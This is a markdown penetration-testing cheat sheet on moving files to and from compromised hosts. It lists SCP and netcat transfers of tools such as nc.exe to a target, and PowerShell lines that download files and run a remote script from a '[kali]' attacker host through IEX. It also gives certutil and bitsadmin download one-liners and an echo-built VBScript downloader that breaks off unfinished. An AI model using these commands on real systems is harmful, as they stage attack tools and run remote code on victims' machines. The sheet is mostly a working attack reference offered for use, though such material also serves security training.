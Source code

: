 ## File Transfer Methods

### Generic

SCP (SSH)
```
$ scp [/path/to/source/file] [user]@[target]:[/path/to/dest/file]
$ scp nc.exe bob@10.10.1.11:C:\\users\\bob # win example
$ scp nc alice@10.10.1.11:/tmp             # linux example
```

Netcat
```
# send - adjust seconds depending on filesize
cmd> nc -w [seconds] [destination_ip] [port] < [file.txt] 
# receive
$ nc -nvlp [port] > [file.txt]
```

### Linux
```
```

### Windows

Powershell
```
# Download file from remote to local
cmd> Powershell -c (New-Object Net.WebClient).DownloadFile('http://[host]:[port]/[file]', '[file]')

# Execute remote PS script
PS> IEX (New-Object System.Net.WebClient).DownloadString('http://[kali]/[script].ps1')
```

Certutil
```
cmd> certutil.exe -urlcache -split -f http://[kali]/[src_file]
```

Bitsadmin
```
cmd> bitsadmin /transfer badthings http://[kali]:[port]/[src_file] [dest_file]
```

Wget -> cscript
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
```